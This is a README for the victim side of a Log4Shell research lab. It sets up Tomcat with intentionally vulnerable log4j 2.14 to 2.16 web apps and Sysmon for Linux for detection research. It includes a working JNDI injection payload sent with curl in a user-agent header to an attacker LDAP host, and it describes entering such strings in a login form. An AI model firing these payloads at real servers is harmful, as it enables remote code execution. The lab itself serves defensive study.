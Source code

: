 # Victim Server

There are several lab environments being shared in the Infosec community that are helping security researchers to test and learn more about `Log4Shell`.
However, most of them use docker containers to not only deploy the vulnerable application, but also containerize the execution of code.
From a Linux perspective, this does not help while using tools such as "[Sysmon for Linux](https://github.com/Sysinternals/SysmonForLinux)" since it cannot be installed in containers yet.
I wanted to put together a research lab where I could replicate a basic real scenario with a vulnerable Web application and Sysmon for Linux running.

## Setup Resources

* [Tomcat v8.5.3](https://tomcat.apache.org/)
* Java Libraries:
    * [javax.servlet-api v4.0.1](https://mvnrepository.com/artifact/javax.servlet/javax.servlet-api/4.0.1)
    * log4j-core ([2.14](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core/2.14.0), [2.15](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core/2.15.0), [2.16](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core/2.16.0))
    * log4j-api ([2.14](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api/2.14.0), [2.15](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api/2.15.0), [2.16](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api/2.16.0))
* [Sysmon for Linux](https://github.com/Sysinternals/SysmonForLinux)

## Tomcat Server Setup (Linux)

SSH to your Linux VM and git clone this projet:

```bash
sudo su

git clone https://github.com/Cyb3rWard0g/log4jshell-lab
```
run the bash script `Install-Tomcat.sh` to install and set up a [Tomcat](https://tomcat.apache.org/) server:

```Bash
cd log4jshell-lab/victim/

sh Install-Tomcat.sh
```

Check if the `Tomcat` service is running properly.

```
service tomcat status
```

## Prepare Vulnerable Applications

### Install Docker

We are going to use a Docker image to compile our vulnerable applications. You can use this script to install the latest Docker app in your Linux VM.

```bash
wget https://raw.githubusercontent.com/OTRF/Blacksmith/master/resources/scripts/bash/Install-Docker.sh
chmod +x Install-Docker.sh

./Install-Docker.sh
```

### Compile Applications

We need to add vulnerable applications to our Tomcat server. This project comes with a few vulnerable java applications.
* [2.14.0](vuln-apps/2.14.0)
* [2.15.0](vuln-apps/2.15.0)
* [2.16.0](vuln-apps/2.16.0)

We need to compile our applications and create `.war` files to host the vulnerable aplications in our Tomcat server under `/opt/tomcat/webapps`.
The bash script `Compile-Apps.sh` compiles applications and copies `.war` files to `/opt/tomcat/webapps`:

```bash
cd vuln-apps/
chmod +x Compile-Apps.sh

sh Compile-Apps.sh
```

### Restart Tomcat Service

```Bash
service tomcat stop
service tomcat start
```

## Access Vulnerable Applications

Each application (`2.14.0`, `2.15.0`, `2.16.0`) has two modes:
* Browser - Login Form: `127.0.0.1:8080/Log4j-2.1*.0-SNAPSHOT/`
* API - GET Request: `127.0.0.1:8080/Log4j-2.1*.0-SNAPSHOT/api`

### Browser Mode
* If your Linux VM has a GUI, you can simply browse to `127.0.0.1:8080/Log4j-2.1*.0-SNAPSHOT/`.
* If your Linux VM does not have a GUI and you can only use the terminal, you can SSH tunnel your access to your vulnerable applications. Simply run the following commands in a new terminal.

```bash
ssh -L 8080:127.0.0.1:8080 wardog@[Public-IP-Linux-VM]
```

* You must use the `email` field to pass a `JNDI lookup` string to trigger the vulnerabilities.

### API Mode
* You can also SSH to your Tomcat server and interact with the application's basic API.
* You can use `curl` to perform a `GET` request:
* This mode require you to pass the `JNDI lookup` string via the `user-agent` header of the `GET` request.

```bash
curl -X GET -H 'user-agent: ${jndi:ldap://192.168.2.6:1389/o=tomcat}' 127.0.0.1:8080/Log4j-2.*.0-SNAPSHOT/api
```

## Install Sysmon for Linux

If you want to generate some endpoint data, download the following bash script to automate the installation and configuration of [Sysmon for Linux](https://github.com/Sysinternals/SysmonForLinux):

```bash
wget https://raw.githubusercontent.com/OTRF/Blacksmith/master/resources/scripts/bash/Install-Sysmon-For-Linux.sh
chmod +x Install-Sysmon-For-Linux.sh

sh Install-Sysmon-For-Linux.sh --config https://raw.githubusercontent.com/OTRF/Blacksmith/master/resources/configs/sysmon/linux/sysmon.xml
```

## Exploiting Vulnerabilities

* Set up [Attacker server - Rogue JNDI](../attacker/README.md)
* Depending on which CVE you want to test, use the following research notes:
    * [CVE-2021-44228 Simulation](../research-notes/2021-12-11_01-CVE-2021-44228-simulation.md)
    * [CVE-2021-45046 Simulation](../research-notes/2022-01-03_01-CVE-2021-45046-simulation.md)

## Reference
* https://linuxize.com/post/how-to-install-tomcat-8-5-on-ubuntu-18-04/
* https://www.digitalocean.com/community/tutorials/install-tomcat-9-ubuntu-1804
* https://github.com/Sysinternals/SysmonForLinux